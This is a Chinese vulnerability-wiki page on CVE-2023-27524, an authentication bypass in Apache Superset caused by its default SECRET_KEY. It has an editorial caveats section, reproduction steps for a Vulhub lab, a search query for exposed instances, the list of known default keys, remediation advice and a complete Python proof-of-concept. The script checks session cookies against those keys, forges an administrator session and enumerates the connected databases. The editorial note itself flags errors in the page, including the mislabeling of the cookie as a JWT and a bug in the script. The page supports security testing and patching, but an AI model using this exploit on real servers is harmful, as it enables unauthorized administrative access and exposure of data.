





# Apache Superset 硬编码 JWT 密钥导致认证绕过漏洞 CVE-2023-27524

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：使用已知默认SECRET_KEY，Flask签名session启用，目标user_id存在；实验Superset2.0.1
- 证据范围：脚本明确flask_unsign，实际为Flask签名会话Cookie，不是JWT；密钥轮换要重加密DB凭据的修复说明有价值。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 标题和多处正文JWT错误，应改Flask签名会话Cookie伪造
- <=2.0.1不是充分条件，关键默认密钥；文档占位key不应称每种安装官方默认
- user_id1通常但不保证管理员，302仅是接受迹象，需受保护API和权限结果确认
- validated只在302分支赋值，非302/异常后if not validated触发未绑定变量
- --validate会自动枚举最多100数据库，超过单纯登录验证且遇首404即结束可能漏稀疏ID，应明示行为
- 后续37941/9193不是本篇主漏洞，数据库OS执行另需高权限/配置
- Superset拼为Superse，版本与镜像历史配置须固定，不能泛化所有docker安装依然漏洞

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Superset 是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。

Apache Superset 存在一个硬编码 JWT 密钥漏洞（CVE-2023-27524）。该应用程序默认配置了一个预设的 `SECRET_KEY` 值，用于签名会话 Cookie。当管理员未更改这个默认密钥时，攻击者可以伪造有效的会话 Cookie 并以任意用户（包括管理员）身份进行认证。这允许未授权访问 Superset 仪表盘、连接的数据库，并可能导致远程代码执行。

当与 [CVE-2023-37941](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) 结合使用时，未经身份验证的攻击者可以先绕过身份验证，然后利用反序列化漏洞执行任意代码。不过本文档只展示 CVE-2023-27524 的利用。

参考链接：

- https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/
- https://github.com/horizon3ai/CVE-2023-27524
- https://github.com/apache/superset/pull/23186/files

## 漏洞影响

```
Apache Superse <= 2.0.1
```

## 网络测绘

```
app.name="Apache Superset"
```

## 环境搭建

Vulhub 执行以下命令启动 Apache Superset 2.0.1 服务器：

```shell
docker compose up -d
```

服务启动后，可以通过 `http://your-ip:8088` 访问 Superset。默认登录凭据为 `admin/vulhub`。




## 漏洞复现

这个漏洞存在的原因是 Superset 使用以下硬编码的 `SECRET_KEY` 作为密钥来签名 Cookie：

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (版本 < 1.4.1 的默认值)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (版本 >= 1.4.1 的默认值)
- `thisISaSECRET_1234`（[部署模板](https://github.com/apache/superset/blob/85da86dc81cf9f5c4791a817befd3d7961ce97ac/helm/superset/templates/_helpers.tpl) 中的默认值）
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`（[文档](https://superset.apache.org/docs/configuration/configuring-superset/) 中的默认值）
- `TEST_NON_DEV_SECRET`（docker-compose 中的默认值）

以 docker-compose 中的默认值 `TEST_NON_DEV_SECRET` 为例，在 [#23186](https://github.com/apache/superset/pull/23186/files) 更新中，如果用户使用默认的 `SECRET_KEY` 进行配置，则不允许服务器启动：




但是，docker 的 `.env` 文件下仍然存在默认值 `TEST_NON_DEV_SECRET`。如果通过 docker_compose 安装，仍然可以使用默认值 `TEST_NON_DEV_SECRET` 运行：




在本漏洞环境中，默认值被设置为版本 >= 1.4.1 的默认值 `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET`。我们使用 [CVE-2023-27524.py](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-27524/CVE-2023-27524.py) 伪造管理员（用户 id 为 1）会话 Cookie：

```shell
# Install dependencies
pip install flask-unsign==1.2.0

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

该脚本尝试使用已知的默认密钥破解会话 Cookie。如果成功，它将伪造一个新的会话 Cookie，其中 user_id=1（通常是管理员用户），并验证登录。




将这个伪造的 JWT 令牌添加到 Cookie 值中，如 `Cookie: session=eyJ...`，即可访问 Superset 的后端 API：




> 更进一步利用，在后台配置允许执行其他数据库语句，配合 PostgreSQL CVE-2019-9193 执行任意命令，或配合 CVE-2023-37941 反序列化漏洞执行任意代码。

## 漏洞 POC

```python
from flask_unsign import session
import requests
import urllib3
import argparse
import re
from time import sleep
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]

def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('--url', '-u', help='Base URL of Superset instance', required=True)
    parser.add_argument('--id', help='User ID to forge session cookie for, default=1', required=False, default='1')
    parser.add_argument('--validate', '-v', help='Validate login', required=False, action='store_true')
    parser.add_argument('--timeout', '-t', help='Time to wait before using forged session cookie, default=5s', required=False, type=int, default=5)
    args = parser.parse_args()

    try:
        u = args.url.rstrip('/') + '/login/'

        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0'
        }

        resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
        if resp.status_code != 200:
            print(f'Error retrieving login page at {u}, status code: {resp.status_code}')
            return

        session_cookie = None
        for c in resp.cookies:
            if c.name == 'session':
                session_cookie = c.value
                break

        if not session_cookie:
            print('Error: No session cookie found')
            return

        print(f'Got session cookie: {session_cookie}')

        try:
            decoded = session.decode(session_cookie)
            print(f'Decoded session cookie: {decoded}')
        except:
            print('Error: Not a Flask session cookie')
            return

        match = re.search(r'&#34;version_string&#34;: &#34;(.*?)&#34', resp.text)
        if match:
            version = match.group(1)
        else:
            version = 'Unknown'

        print(f'Superset Version: {version}')


        for i, k in enumerate(SECRET_KEYS):
            cracked = session.verify(session_cookie, k)
            if cracked:
                break

        if not cracked:
            print('Failed to crack session cookie')
            return

        print(f'Vulnerable to CVE-2023-27524 - Using default SECRET_KEY: {k}')

        try:
            user_id = int(args.id)
        except:
            user_id = args.id

        forged_cookie = session.sign({'_user_id': user_id, 'user_id': user_id}, k)
        print(f'Forged session cookie for user {user_id}: {forged_cookie}')

        if args.validate:
            try:
                headers['Cookie'] = f'session={forged_cookie}'
                print(f'Sleeping {args.timeout} seconds before using forged cookie to account for time drift...')
                sleep(args.timeout)
                resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
                if resp.status_code == 302:
                    print(f'Got 302 on login, forged cookie appears to have been accepted')
                    validated = True
                else:
                    print(f'Got status code {resp.status_code} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')
            except Exception as e_inner:
                print(f'Got error {e_inner} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')

            if not validated:
                return

            print('Enumerating databases')
            for i in range(1, 101):
                database_url_base = args.url.rstrip('/') + '/api/v1/database'
                try:
                    r = requests.get(f'{database_url_base}/{i}', headers=headers, verify=False, timeout=30, allow_redirects=False)
                    if r.status_code == 200:
                        result = r.json()['result'] # validate response is JSON
                        name = result['database_name']
                        print(f'Found database {name}')
                    elif r.status_code == 404:
                        print(f'Done enumerating databases')
                        break # no more databases
                    else:
                        print(f'Unexpected error: status code={r.status_code}')
                        break
                except Exception as e_inner:
                    print(f'Unexpected error: {e_inner}')
                    break


    except Exception as e:
        print(f'Unexpected error: {e}')


if __name__ == '__main__':
    main()
```

## 漏洞修复

修复此问题需要安全地生成 `SECRET_KEY` 并对其进行配置，请按照 [此处的说明](https://superset.apache.org/docs/installation/configuring-superset/) 进行操作。此外，由于数据库密码等敏感信息也使用 `SECRET_KEY` 加密，因此需要使用新的 `SECRET_KEY` 重新加密这些信息。`superset` CLI 工具可自动执行密钥轮换过程， [请参阅此处](https://superset.apache.org/docs/installation/configuring-superset/#secret_key-rotation) 。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
